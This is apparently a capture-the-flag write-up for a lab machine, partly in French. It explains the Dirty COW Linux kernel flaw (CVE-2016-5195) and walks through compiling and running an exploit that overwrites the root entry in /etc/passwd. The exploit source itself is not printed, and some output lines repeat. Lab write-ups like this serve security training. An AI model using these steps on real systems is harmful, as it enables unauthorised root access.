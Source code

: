 ### Explanation: What is the Dirty COW exploit?
Dirty COW (Dirty Copy-On-Write) is a serious vulnerability in the Linux kernel that allows a local user to gain write access to read-only memory mappings, thereby elevating their privileges on the system. It has been designated as CVE-2016-5195.

In the context of this guide, Dirty COW is exploited to modify the /etc/passwd file, which contains user password information. The exploit makes a backup of the original file, then overwrites the root user's data, setting a new password and effectively granting the attacker root access.

It is important to note that exploiting Dirty COW or any other vulnerability without explicit permission is illegal and unethical. It should only be done in a legal context such as a penetration testing environment or a cybersecurity research setting where you have permission to conduct such tests.

Moreover, it's stressed in the guide to restore the original /etc/passwd file after testing the exploit to maintain the system's integrity and security.

----

#### I - Connect via SSH
- Follow writeup1 up to the Laurie SSH step.

----

#### II - Create the Script

``nano dirtycow.c`
- Copy and paste the code located in /scripts/dirtycow

- Compile the exploit
``gcc dirtycow.c -lpthread -lcrypt``

----

#### III - Run the Script

- Launch the exploit
``./a.out``

>/etc/passwd successfully backed up to /tmp/passwd.bak
>Please enter the new password: (**SAISIR LE NOUVEAU MDP ICI**)
>Complete line:
>root:XXXXXXXXX:pwned:/root:/bin/bash **(ou XXXXXXXXX est la version cryptee du mdp choisi)**
>mmap: b7fda000
>madvise 0
>ptrace 0
>Done! Check /etc/passwd to see if the new user was created.
>You can log in with the username 'root' and the password 'XXXXXXXXX'. **(ou XXXXXXXXX est le mdp choisi)**
>DON'T FORGET TO RESTORE! \$ mv /tmp/passwd.bak /etc/passwd
>Done! Check /etc/passwd to see if the new user was created.
>You can log in with the username 'root' and the password 'XXXXXXXXX'. **(ou XXXXXXXXX est le mdp choisi)**
>DON'T FORGET TO RESTORE! \$ mv /tmp/passwd.bak /etc/passwd

----

#### IV - Log in as Root

``su root``
>Password:
>root@BornToSecHackMe:/home/zaz#
